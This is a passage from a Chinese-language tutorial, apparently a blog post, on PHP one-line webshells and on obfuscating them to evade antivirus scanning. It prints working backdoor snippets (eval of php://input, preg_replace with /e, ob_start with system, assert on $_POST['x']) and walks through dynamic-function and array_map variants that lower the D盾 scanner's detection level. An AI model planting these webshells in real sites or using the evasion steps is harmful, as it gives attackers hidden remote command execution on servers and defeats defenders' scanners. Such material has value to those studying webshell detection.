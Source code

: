 ```php
<?php
@eval(file_get_contents('php://input'));
```

![php://input方法](ex_7.png)

### preg_replace方法

preg_replace函数执行一个正则表达式的搜索和替换。我们可以使用一个命令执行函数去替换正常的字符串，然后去执行命令。

```php
<?php
echo preg_replace("/test/e",phpinfo(),"jutst test");
```

![preg_replace方法](ex_8.png)

### ob_start

ob_start函数是打开输出控制缓冲，传入的参数会在使用ob_end_flush函数的时候去调用它执行输出在缓冲区的东西。

```php
<?php
$cmd = 'system';
ob_start($cmd);
echo "whoami";
ob_end_flush();//输出全部内容到浏览器
```

![ob_start](ex_9.png)

## 编写免杀

上面说了那么多其实都是一句话木马的思路，每一种方式都可以写成一句话木马，而想要免杀常常会多种组合到一起，下面从最简单的木马一步步变形，达到免杀的目的。

```php
assert($_POST['x']);
```

![5级](ex_10.png)

这种就是最简单的一句话木马，使用D盾扫一下，可以看到5级，没有什么好说的。

动态函数方法,把assert这个函数赋值两次变量,再把变量当成函数执行。

```php
$c = "assert";
$c($_POST['x']);
```

![4级](ex_11.png)

回调函数方法，把assert函数当作参数传给array_map去调用执行。

```php
<?php
$fun = 'assert';
array_map($fun,array($_POST['x']));
```
